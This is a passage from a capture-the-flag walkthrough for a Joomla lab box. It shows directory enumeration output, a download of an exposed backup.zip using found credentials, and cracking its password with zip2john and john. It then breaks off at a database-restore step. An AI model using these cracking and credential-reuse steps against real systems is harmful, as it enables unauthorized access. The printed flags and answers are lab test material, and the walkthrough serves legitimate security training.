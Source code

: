 ~~~
/.htpasswd.tar (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/backup (Status: 200)
/backup.zip (Status: 200)
/cache (Status: 301)

[REDACTED]
~~~

Answer: `backup.zip`

# #11 - We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?

*Hint: Use john to crack the zip hash*

We download the backup file and try to uncompress it, but it requires a password:

~~~
$ wget --user=joker --password=hannah http://10.10.130.207:8080/backup.zip
$ unzip backup.zip 
Archive:  backup.zip
   creating: db/
[backup.zip] db/joomladb.sql password: 
~~~

Let's crack the password:

~~~
$ zip2john backup.zip > backup.hash
$ john backup.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:./password.lst
hannah           (backup.zip)
1g 0:00:00:00 DONE 2/3 (2020-06-23 10:16) 6.250g/s 584006p/s 584006c/s 584006C/s 123456..faithfaith
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Answer: `hannah`

# #12 - Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? ok what if we do a restoration of the database! Some tables must have something like user_table! What is the super duper user?
